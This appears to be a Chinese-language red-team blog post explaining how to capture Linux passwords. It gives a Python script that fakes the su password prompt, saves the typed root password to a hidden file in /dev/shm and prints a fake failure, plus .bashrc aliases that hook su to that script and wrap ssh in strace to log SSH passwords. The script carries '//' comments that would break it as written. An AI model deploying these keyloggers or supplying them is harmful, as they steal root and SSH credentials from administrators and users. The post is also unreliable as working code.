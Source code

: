 ```yaml
---
layout:     post
title:      "Keyboard Logger On Linux - Part 1"
date:       2016-12-23
categories: [Pentest, Red Team]

---
```


### alias su keylogger

在一个低权限用户目录下的.bashrc添加一句alias su='/usr/root.py'，低权限用户su root后成功记录密码，但使用这种方法后管理员无法正常su切换至root用户下，所以比较容易被管理员发现。密码记录路径请看脚本。 

```python
#!/usr/bin/python
# -*- coding: cp936 -*-

import os, sys, getpass, time

current_time = time.strftime("%Y-%m-%d %H:%M")
logfile="/dev/shm/.su.log"              //密码获取后记录在这里
#CentOS                 
#fail_str = "su: incorrect password"
#Ubuntu              
#fail_str = "su: Authentication failure"
#For Linux Korea                    //centos,ubuntu,korea 切换root用户失败提示不一样
fail_str = "su: incorrect password"
try:
	passwd = getpass.getpass(prompt='Password: ');
	file=open(logfile,'a')
	file.write("[%s]t%s"%(passwd, current_time))   //截取root密码
	file.write('n')
	file.close()
except:
	pass
time.sleep(1)
print fail_str                               //打印切换root失败提示
```

### alias ssh keylogger

同样编辑当前用户下的.bashrc文件,添加以下内容，然后使用source .bashrc 命令使配置生效，当ssh的时候,就会在tmp下面生成记录

```basic
alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log -e read,write,connect  -s2048 ssh' 
```

